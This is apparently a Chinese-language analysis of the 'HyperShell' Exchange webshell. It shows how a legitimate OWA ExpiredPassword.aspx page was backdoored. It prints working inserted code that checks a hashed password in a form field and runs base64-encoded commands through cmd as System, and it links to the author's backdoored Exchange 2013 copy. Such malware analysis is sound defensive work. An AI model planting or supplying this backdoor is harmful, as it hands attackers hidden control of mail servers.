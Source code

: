 适用于Exchange的webshell

相对路径：`.\Webshells_and_Panel\HyperShell\StableVersion\HighShell v5.0\HyperShell\HyperShell\ExpiredPasswordTech`

与相对路径`.\Webshells_and_Panel\HyperShell\ExpiredPasswordTech`下的文件内容相同

ExpiredPassword.aspx是Exchange正常的功能，对应重置用户口令的页面，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-4-20/3-1.png)

访问的URL：`https://<domain>/owa/auth/ExpiredPassword.aspx`

对应Windows绝对路径：`C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\ExpiredPassword.aspx`

该路径下的webshell默认权限为System

我的测试系统安装了Exchange2013，正常的ExpiredPassword.aspx源码我已经上传至github：

https://raw.githubusercontent.com/3gstudent/test/master/ExpiredPassword.aspx(2013)


HyperShell中的ExpiredPassword.aspx是一个添加了后门代码的文件，同我测试环境的正常ExpiredPassword.aspx文件相比有多处不同，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-4-20/3-2.png)

经过分析发现有可能是Exchange版本差异导致的，忽略版本差异，HyperShell中的ExpiredPassword.aspx主要添加了如下代码：

```
              <%
                    try{
                    if (Convert.ToBase64String(new System.Security.Cryptography.SHA1Managed().ComputeHash(Encoding.ASCII.GetBytes(Encoding.ASCII.GetString(Convert.FromBase64String(Request.Form["newPwd1"])) + "reDGEa@#!%FS"))) == "+S6Kos9D/etq1cd///fgTarVnUQ=")
                    {
                        System.Diagnostics.Process p = new System.Diagnostics.Process();
                        System.Diagnostics.ProcessStartInfo i = p.StartInfo;
                        i.FileName = "cmd";
                        i.Arguments = "/c " + Encoding.UTF8.GetString(Convert.FromBase64String(Request.Form["newPwd2"]));
                        i.UseShellExecute = false;
                        i.CreateNoWindow = true;
                        i.RedirectStandardOutput = true;
                        p.Start();
                        string r = p.StandardOutput.ReadToEnd();
                        p.WaitForExit();
                        p.Close();
                        Response.Write("<pre>" + Server.HtmlEncode(r) + "</pre>");
                        Response.End();
                    }}catch{}
                %>
```

对应到我的测试环境，也就是Exchange2013，添加payload后的代码已上传至github：

https://raw.githubusercontent.com/3gstudent/test/master/ExpiredPassword.aspx(2013)(HyperShell)
